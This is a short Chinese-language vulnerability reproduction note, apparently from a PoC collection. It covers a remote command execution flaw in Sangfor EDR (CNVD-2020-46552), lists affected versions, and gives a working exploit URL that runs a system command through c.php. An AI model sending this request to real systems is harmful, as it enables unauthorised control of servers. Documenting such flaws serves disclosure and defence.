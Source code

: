 # 深信服EDR远程命令执行 CNVD-2020-46552

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，可向目标服务器发送恶意构造的HTTP请求，从而获得目标服务器的权限，实现远程代码控制执行。

## 影响版本

> [!NOTE]
>
> EDR v3.2.16
>
> EDR v3.2.17
>
> EDR v3.2.19

## 漏洞复现

```
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&host=id
```

![](./image/sxf-1.png)